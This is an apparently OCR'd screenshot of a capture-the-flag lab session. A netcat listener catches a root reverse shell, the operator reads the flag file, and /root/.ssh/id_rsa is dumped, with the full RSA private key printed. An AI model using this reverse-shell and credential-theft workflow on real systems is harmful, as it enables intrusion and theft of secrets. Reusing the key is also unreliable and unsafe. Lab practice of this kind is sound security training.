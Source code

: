         root@nidus:/opt/scanners/linux# nc -lvnp 4488
          listening on [any] 4488 ...
          connect to [10.10.14.2] from (UNKNOWN) [10.10.10.176] 43498
          #
          # id
            uid=0(root) gid=0(root) groups=0(root)
          # pwd
            /root
          # cat root.txt
            84da92adf998a1c7231297f70dd89714
          # cat /root/.ssh/id_rsa
            -----BEGIN RSA PRIVATE KEY-----
            MIIEpAIBAAKCAQEAsxp94IilXDxbAhMRD2PsQQ46mGrvgSPUh26lCETrWcIdNU6J
            cFzQxCMM/E8UwLdD0fzUJtDgo4SUuwUmkPc6FXuLrZ+xqJaKoeu7/3WgjNBnRc7E
            z6kgpwnf4GOqpvxx1R1W+atbMkkWn6Ne89ogCUarJFVMEszzuC+14Id83wWSc8uV
            ZfwOR1y/Xqdu82HwoAMD3QG/gu6jER8V7zsC0ByAyTLT7VujBAP9USfqOeqza2UN
            GWUqIckZ2ITbChBuTeahfH2Oni7Z3q2wXzn/0yubA8BpyzVut4Xy6ZgjpH6tlwQG
            BEbULdw9d/E0ZFHN4MoNWuKtybx4iVMTBcZcyQIDAQABAoIBAQCgBcxwIEb2qSp7
            KQP2J0ZAPfFWmzzQum26b75eLA3HzasBJOGhlhwlElgY2qNlKJkc9nOrFrePAfdN
            PeXeYjXwWclL4MIAKjlFQPVg4v0Gs3GCKqMoEymMdUMlHoer2SPv0N4UBuldfXYM
            PhCpebtj7lMdDGUC60Ha0C4FpaiJLdbpfxHase/uHvp3S/x1oMyLwMOOSOoRZZ2B
            Ap+fnQEvGmp7QwfH+cJT8ggncyN+Gc17NwXrqvWhkIGnf7Bh+stJeE/sKsvG83Bi
            E5ugJKIIipGpZ6ubhmZZ/Wndl8Qcf80EbUYs4oIICWCMu2401dvPMXRp7PCQmAJB
            5FVQhEadAoGBAOQ2/nTQCOb2DaiFXCsZSr7NTJCSD2d3s1L6cZc95LThXLL6sWJq
            mljR6pC7g17HTTfoXXM2JN9+kz5zNms/eVvO1Ot9GPYWj6TmgWnJlWpT075U3CMU
            MNEzJtWyrUGbbRvm/2C8pvNSbLhmtdAg3pDsFb884OT8b4arufE7bdWHAoGBAMjo
            y0+3awaLj7ILGgvukDfpK4sMvYmx4QYK2L1R6pkGX2dxa4fs/uFx45Qk79AGc55R
            IV1OjFqDoq/s4jj1sChKF2+8+JUcrJMsk0WIMHNtDprI5ibYy7XfHe7oHnOUxCTS
            CPrfj2jYM/VCkLTQzdOeITDDIUGG4QGUML8IbM8vAoGBAM6apuSTzetiCF1vVlDC
            VfPEorMjOATgzhyqFJnqc5n5iFWUNXC2t8L/T47142mznsmleKyr8NfQnHbmEPcp
            ALJH3mTO3QE0zZhpAfIGiFk5SLG/24d6aPOLjnXai5Wgozemeb5XLAGOtlR+z8x7
            ZWLoCIwYDjXf/wt5fh3RQo8TAoGAJ9Da2gWDlFx8MdC5bLvuoOX41ynDNlKmQchM
            g9iEIad9qMZ1hQ6WxJ8JdwaK8DMXHrz9W7yBXD7SMwNDIf6u1o04b9CHgyWXneMr
            nJAM6hMm3c4KrpAwbu60w/AEeOt2o8VsOiusBB80zNpQS0VGRTYFZeCF6rKMTP/N
            WU6WIckCgYBE3k00nlMiBNPBn9ZC6legIgRTb/M+WuG7DVxiRltwMoDMVIoi1oXT
            ExVWHvmPJh6qYvA8WfvdPYhunyIstqHEPGn14fSl6xx3+eR3djjO6J7VFgypcQwB
            yiu6RurPM+vUkQKb1omS+VqPH+Q7FiO+qeywqxSBotnLvVAiaOywUQ==
            -----END RSA PRIVATE KEY-----
          # Hangup


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

